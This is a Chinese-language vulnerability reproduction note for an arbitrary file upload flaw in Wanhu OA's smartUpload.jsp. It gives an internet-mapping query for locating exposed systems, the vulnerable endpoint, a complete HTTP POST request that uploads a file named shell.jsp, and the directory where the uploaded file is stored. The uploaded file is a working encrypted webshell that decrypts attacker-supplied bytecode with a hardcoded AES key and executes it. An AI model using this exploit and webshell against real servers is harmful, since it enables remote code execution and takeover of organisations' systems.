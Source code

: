 # 万户OA smartUpload.jsp 任意文件上传漏洞

## 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132954328](./images/202205201329430.png)

文件上传接口

```
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&
```

![image-20220520133009291](./images/202205201330330.png)

可直接上传恶意jsp文件

```
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

![image-20220520133028650](./images/202205201330739.png)

通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`

![image-20220520133040250](./images/202205201330344.png)